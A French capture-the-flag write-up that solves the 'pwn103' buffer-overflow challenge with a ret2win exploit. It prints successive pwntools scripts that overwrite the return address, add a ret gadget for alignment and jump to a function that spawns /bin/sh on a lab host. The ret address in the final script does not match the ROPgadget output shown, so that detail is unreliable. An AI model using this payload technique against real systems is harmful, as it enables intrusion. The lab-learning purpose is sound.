




Challenge 3 - pwn101
Information du fichier
Dans un premier temps on a besoin d'avoir un max d'information sur le fichier pour savoir à quoi nous avons à faire on va donc effectuer un `file` pour obtenir des informations sur le fichier. Ensuite nous ferons un `checksec` pour voir les protections avec lesquelles le fichier à été compilé.
Le `file`
❯ file pwn103
pwn103: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3df2200610f5e40aa42eadb73597910054cf4c9f, for GNU/Linux 3.2.0, not stripped
On retient ici le fait que le fichier est un executable en 64bit, et qu'il n'est pas strippé.
Le `checksec`
❯ checksec pwn103
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x400000)
Stripped: No
Les protections à retenir ici, PIE (Position Independant Executable) nous permet de connaître l'adresse de base du binaire et donc de connaître les adresses des fonctions.
Exploit - (ret2win)
Nous allons donc d'abord executer le fichier et voir comment il réagit :
Nous apprenons plusieurs choses en lisant le programme qu'il a 5 sections nous avons donc un premier input dans lequel il nous est demandé d'interagir avec le menu .
Je teste les différents possibilité et en tapant 3 j'accède au général :
On se doute que la vuln se situe ici car on a un input et un input trop long fait crash le programme. On peut donc supposer une vuln de type buffer overflow.
Création du payload
Voici donc le début de notre exploit, pour ça je vais utiliser `pwninit` un outil de création de template python :
from pwn import *
exe = ELF("./pwn103")
context.binary = exe
def conn():
if args.LOCAL:
r = process([exe.path])
if args.DEBUG:
gdb.attach(r)
else:
r = remote("addr", 1337)
return r
def main():
r = conn()
# good luck pwning :)
padding = b"A" * 32
rbp = b"B" * 8
payload = padding + rbp
r.sendlineafter(b":", b"3") # aller dans "General" avant d'envoyer le payload
r.sendlineafter(b":", payload)
r.interactive()
if __name__ == "__main__":
main()
Je déclare, deux variables une première "padding" qui va correspondre au padding du buffer pour le remplir et la deuxième "rbp" qui va overwrite le saved rbp.
On concatène nos les valeurs de nos deux variables dans payload.
On intéragit avec le programme on envoie "3" pour aller dans le "General"
On envoie le payload mais rien ne va se passer car la sauvegarde de RIP n'a pas été overwrite.
Continuation du Payload
Je vais donc essayer d'éxécuter la fonction "announcements" pour vérifier que l'on peut effectuer un buffer overflow en écrasant l'adresse de retour.
from pwn import *
exe = ELF("./pwn103")
context.binary = exe
def conn():
if args.LOCAL:
r = process([exe.path])
if args.DEBUG:
gdb.attach(r)
else:
r = remote("addr", 1337)
return r
def main():
r = conn()
# good luck pwning :)
padding = b"A" * 32 #
rbp = b"B" * 8
payload = padding + rbp + p64(exe.sym["announcements"])
r.sendlineafter(b":", b"3") # aller dans "General" avant d'envoyer le payload
r.sendlineafter(b":", payload)
r.interactive()
if __name__ == "__main__":
main()
J'ai rajouté dans le payload `p64(exe.sym["announcements])`, il va récupérer l'adresse du symbol "announcements" et la fonction p64() va convertir l'adresse en 64 bits little endian.
Je vois que j'ai réussi à éxecuter la fonction annoucements , le contenu s'affiche cela confirme que le payload écrase l'adresse de retour.
Il nous faut maintenant trouver la fonction "win" (qui va nous afficher le flag) et sauter dessus.
Sur ghidra on voit dans le code décompiler que la fonction `admins_only` a 3 CALL dont deux sur `puts` et un sur `system("/bin/sh");`.
On modifie notre payload pour éxécuter cette fonction et le testons toujours en LOCAL :
from pwn import *
exe = ELF("./pwn103")
context.binary = exe
def conn():
if args.LOCAL:
r = process([exe.path])
if args.DEBUG:
gdb.attach(r)
else:
r = remote("addr", 1337)
return r
def main():
r = conn()
# good luck pwning :)
padding = b"A" * 32
rbp = b"B" * 8
payload = padding + rbp + p64(exe.sym["admins_only"])
r.sendlineafter(b":", b"3")
r.sendlineafter(b":", payload)
r.interactive()
if __name__ == "__main__":
main()
On run et on devrait obtenir un shell :

Et... non c'est Jason, le shell n’a pas été obtenu car le programme a segfault.
Le problème
Puisque je suis sous Ubuntu 22.04, qui est une version ultérieure à la 18.04 je suis affecté par les problèmes de stack alignment. Nous devons donc la réaligner
Pour régler ça, on peut ajouter un gadget ret, qu’on va trouver en utilisant ROPgadget, après notre padding
Sur les systèmes récents (comme Ubuntu 22.04), quand tu appelles une fonction via une ROP chain, la stack doit être alignée à 16 octets (16-byte aligned) au moment où la fonction est appelée.
Sinon, certaines instructions comme movaps plantent avec un segfault, car elles attendent une adresse bien alignée.
Le shell ne s'ouvre pas à cause de ça.
En insérant un gadget ret juste avant d’appeler une vraie fonction, tu déplaces la stack de 8 octets et tu réalignes tout
ROPgadget --binary pwn103 | grep ": ret"
0x0000000000401016 : ret
0x0000000000401072 : ret 0x3f
0x0000000000401271 : retf
0x0000000000401062 : retf 0x3f
`ret` ne fait qu’un seul pop (la prochaine adresse de retour) et saute là‑dessus
Payload Final
Maintenant qu’on a l’addresse du `ret` on peut l’ajouter à notre payload, et il devrait fonctionner cette fois. Voici donc la version finale de l’exploit en REMOTE après avoir tester que ça marcher en LOCAL :
from pwn import *
exe = ELF("./pwn103")
context.binary = exe
def conn():
if args.LOCAL:
r = process([exe.path])
if args.DEBUG:
gdb.attach(r)
else:
r = remote("10.10.5.205", 9003)
return r
def main():
r = conn()
# good luck pwning :)
padding = b"A" * 32
rbp = b"B" * 8
ret_addr = 0x0000000000401677
payload = padding + rbp + p64(ret_addr) + p64(exe.sym["admins_only"])
r.sendlineafter(b":", b"3")
r.sendlineafter(b":", payload)
r.interactive()
if __name__ == "__main__":
main()

Et c'est flag, bien joué !